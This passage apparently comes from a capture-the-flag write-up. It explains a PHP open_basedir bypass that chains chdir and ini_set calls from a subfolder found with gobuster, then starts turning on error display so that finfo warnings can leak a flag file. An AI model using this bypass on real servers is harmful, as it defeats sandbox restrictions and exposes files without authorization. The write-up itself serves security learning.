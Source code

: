 There is a well known trick to do it, by playing with subdirectories and changing some config values with `ini_set` we can easily bypass it.

The classical way to do it is with this code:

```php
chdir('/tmp');
mkdir('sub');
chdir('sub');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
```

But this won't work because `tmp` is not within the allowed paths, and `mkdir` is disabled, so we have to find a subdirectory inside `/var/www/html` and use it.

Luckily, a quick scanning with `gobuster` reveals a folder `images`, so the above code becomes

```php
chdir('images');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
```
It's easy to understand, first we `cd` to a subfolder that we have access to, in this case `images`.

we change the `open_basedir` value to `..`, now what happens is that php checks if the new value is allowed based on the old value, in this case it is allowed because we are inside `images` and it's parent directory is `/var/www/html/` so obviously it's allowed.

Now we can access everything one directory level above our current directory, so we just traverse the tree upwards to list all files;

and then to be able to list all files no matter where we are in the tree, we `cd` into `/` by going upwards 4 times and then change `open_basedir` to `/`.

However, we can't test yet if this works, because we have no way to list files, so we have to read the flag directly.

### Part 4: Reading the flag file

#### FINFO to the rescue

Using finfo, we can specify a file to read, and finfo will return lots of errors and warnings, and between them the content of file we want to read.

First we have to enable warnings to be able to see something, we can do it with the following code:

```php
ini_set('display_errors',1); 
error_reporting(E_ALL);
```
